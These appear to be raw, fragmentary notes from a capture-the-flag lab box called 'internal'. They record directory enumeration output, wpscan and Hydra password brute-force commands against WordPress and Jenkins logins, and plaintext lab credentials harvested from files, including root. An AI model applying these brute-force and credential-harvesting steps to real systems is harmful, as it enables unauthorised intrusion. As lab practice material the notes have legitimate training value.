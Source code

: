 ┌──(kali㉿kali)-[~/sectools/dirsearch]
└─$ ./dirsearch.py -u 10.10.21.239 -e aspx,php                                                        127 ⨯

  _|. _ _  _  _  _ _|_    v0.4.1                                                                            
 (_||| _) (/_(_|| (_| )                                                                                     
                                                                                                            
Extensions: aspx, php | HTTP method: GET | Threads: 30 | Wordlist size: 9432

Output File: /home/kali/sectools/dirsearch/reports/10.10.21.239/_21-05-31_07-14-28.txt

Error Log: /home/kali/sectools/dirsearch/logs/errors-21-05-31_07-14-28.log

this threader3000 scanner is damn fast
/home/kali/sectools/threader3000.py

Target: http://10.10.21.239/
                                                                                                            
[07:14:29] Starting: 
[07:14:36] 403 -  277B  - /.ht_wsr.txt                                    
[07:14:36] 403 -  277B  - /.htaccess.bak1
[07:14:36] 403 -  277B  - /.htaccess.orig
[07:14:36] 403 -  277B  - /.htaccess.sample
[07:14:36] 403 -  277B  - /.htaccess.save
[07:14:36] 403 -  277B  - /.htaccess_extra
[07:14:36] 403 -  277B  - /.htaccess_orig
[07:14:36] 403 -  277B  - /.htaccess_sc
[07:14:36] 403 -  277B  - /.htaccessBAK
[07:14:36] 403 -  277B  - /.htaccessOLD
[07:14:36] 403 -  277B  - /.htaccessOLD2
[07:14:36] 403 -  277B  - /.htm            
[07:14:36] 403 -  277B  - /.html
[07:14:36] 403 -  277B  - /.htpasswd_test
[07:14:36] 403 -  277B  - /.htpasswds
[07:14:36] 403 -  277B  - /.httr-oauth
[07:14:38] 403 -  277B  - /.php                                                   
[07:14:59] 301 -  311B  - /blog  ->  http://10.10.21.239/blog/                      
[07:15:01] 200 -    4KB - /blog/wp-login.php                                        
[07:15:01] 200 -   53KB - /blog/                                                           
[07:15:10] 200 -   11KB - /index.html                                                                      
[07:15:11] 301 -  317B  - /javascript  ->  http://10.10.21.239/javascript/ 
[07:15:19] 200 -   13KB - /phpmyadmin/doc/html/index.html                                                  
[07:15:19] 301 -  317B  - /phpmyadmin  ->  http://10.10.21.239/phpmyadmin/
[07:15:21] 200 -   10KB - /phpmyadmin/                                                             
[07:15:21] 200 -   10KB - /phpmyadmin/index.php                                                         
[07:15:24] 403 -  277B  - /server-status                                                           
[07:15:24] 403 -  277B  - /server-status/    
[07:15:32] 200 -    4KB - /wordpress/wp-login.php                                                     
                                                                                      
Task Completed                                     





http://10.10.169.252/blog
http://10.10.169.252/javascript
http://10.10.169.252/phpmyadmin
http://10.10.169.252/server-status
http://10.10.169.252/wordpress


change the etc/host file to include
<ip>   internal.blog 


wpscan --url http://10.10.169.252/blog --usernames admin --passwords /home/kali/SecLists/Passwords/xato-net-10-million-passwords-100000.txt --max-threads 50


└─$ wpscan --url http://10.10.169.252/blog -e vp,u            148 ⨯ 2 ⚙

http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php



$ cd opt
$ ls
containerd
wp-save.txt
$ cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123



aubreanna@internal:~$ cat jenkins.txt
Internal Jenkins service is running on 172.17.0.2:8080
aubreanna@internal:~$ netstat -ano
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:36045         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0    324 10.10.169.252:22        10.11.37.146:54394      ESTABLISHED on (0.37/0/0)
tcp        0      0 10.10.169.252:44640     10.11.37.146:54         ESTABLISHED off (0.00/0/0)
tcp6       0      0 :::80                   :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 10.10.169.252:80        10.11.37.146:51106      ESTABLISHED keepalive (5431.85/0/0)
udp        0      0 127.0.0.53:53           0.0.0.0:*                           off (0.00/0/0)
udp        0      0 10.10.169.252:68        0.0.0.0:*                           off (0.00/0/0)
raw6       0      0 :::58                   :::*                    7           off (0.00/0/0)
Active UNIX domain sockets (servers and established)
Proto RefCnt Flags       Type       State         I-Node   Path



wpscan --url http://10.10.21.239/blog --usernames admin --passwords /home/kali/seclists/Passwords/xato-net-10-million-passwords-100000.txt --max-threads 50

im able to lgin to the phpdb

/etc/phpmyadmin/config-db.php:$dbpass='B2Ud4fEOZmVq';                                                       
/etc/phpmyadmin/config-db.php:$dbuser='phpmyadmin';


www-data@internal:/opt$ ls -lah
ls -lah
total 16K
drwxr-xr-x  3 root root 4.0K Aug  3  2020 .
drwxr-xr-x 24 root root 4.0K Aug  3  2020 ..
drwx--x--x  4 root root 4.0K Aug  3  2020 containerd
-rw-r--r--  1 root root  138 Aug  3  2020 wp-save.txt
www-data@internal:/opt$ cat wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123


[8080][http-post-form] host: 127.0.0.1   login: admin   password: spongebob
[STATUS] attack finished for 127.0.0.1 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-31 13:38:22

Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123